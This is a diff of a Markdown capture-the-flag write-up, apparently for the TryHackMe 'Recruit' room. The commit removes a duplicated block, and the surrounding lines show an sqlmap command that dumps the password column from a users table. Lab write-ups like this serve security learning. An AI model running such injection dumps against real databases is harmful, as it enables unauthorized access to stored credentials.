

Before and after one commit to giriaryan694-a11y/AryterLog, a Markdown page: posts/tryhackme-recruit-writeup.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/posts/tryhackme-recruit-writeup.md
+++ b/posts/tryhackme-recruit-writeup.md
@@ -406,11 +406,6 @@ Result:
 ```bash
 sqlmap -r req -D recruit_db -T users -C password --dump
 ```
-Result:
-
-```bash
-sqlmap -r req -D recruit_db -T users -C password --dump
-```
 
 Result:
 ```bash
````
